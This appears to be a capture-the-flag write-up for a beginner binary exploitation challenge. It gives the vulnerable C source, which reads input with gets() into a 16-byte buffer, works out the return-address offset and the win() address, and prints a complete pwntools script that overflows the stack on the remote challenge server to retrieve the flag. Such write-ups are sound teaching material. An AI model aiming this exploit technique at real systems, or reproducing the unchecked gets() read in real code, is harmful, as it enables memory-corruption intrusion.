


# is pwn really that easy?
### Description: gacoan nya 1 mas

We are given a netcat:
```
nc minictf.ucs.or.id 2001
```
and a zip called ```dist.zip```.

Extracting the zip gives us a binary ```easy``` and a C source file ```easy.c```:
```
#include <stdio.h>
#include <signal.h>

void init()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void win()
{
    FILE *fp = fopen("/flag.txt", "r");
    char flag[256];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fclose(fp);
}

int main()
{
    init();
    char buffer[0x10];
    printf("input something here: ");
    gets(buffer);
    return 0;
}
```
This is a buffer overflow pwn problem, and first we gotta find the address of the win() function on the code above.

The buffer size is 16 bytes, as indicated by [0x10].

To do that, we run:
```
objdump -d easy
```


As we can see, the address for win() is 0x4011d7.

The saved rbp is 8 bytes, so the payload's offset to return address must be 24 bytes.

Using this deducted information, i told ChatGPT to assemble a python script to connect to the server and deliver a payload in order to get the flag:

```
from pwn import *

# Target information
host = 'minictf.ucs.or.id'
port = 2001

# win() function address from objdump: 0x4011d7
win_addr = 0x4011d7

# Buffer overflow details:
# - buffer[0x10] = 16 bytes
# - saved rbp = 8 bytes  
# - return address = 8 bytes
# Total offset to return address = 24 bytes
offset = 24

# Create payload
payload = b'A' * offset  # Fill buffer + saved rbp
payload += p64(win_addr)  # Overwrite return address with win()

print(f"[*] Connecting to {host}:{port}")
print(f"[*] win() address: 0x{win_addr:x}")
print(f"[*] Payload length: {len(payload)} bytes")

# Connect to remote target
try:
    p = remote(host, port)
    print("[+] Connected successfully!")
    
    # Receive the prompt
    prompt = p.recvuntil(b"input something here: ")
    print(f"[*] Received: {prompt.decode()}")
    
    # Send the payload
    print("[*] Sending payload...")
    p.sendline(payload)
    
    # Receive and print the flag
    print("[*] Waiting for response...")
    response = p.recvall(timeout=5)
    print(f"[+] Response: {response.decode()}")
    
    p.close()
    print("[*] Connection closed")

except Exception as e:
    print(f"[-] Error: {e}")
```



Flag: ```UCS{kamu tau gak apa yang paling aku cintai dari dia. senyumnya, tawa nya serta karakter nya yang penuh semangat dan selalu membawa keceriaan di mana pun ia berada}```

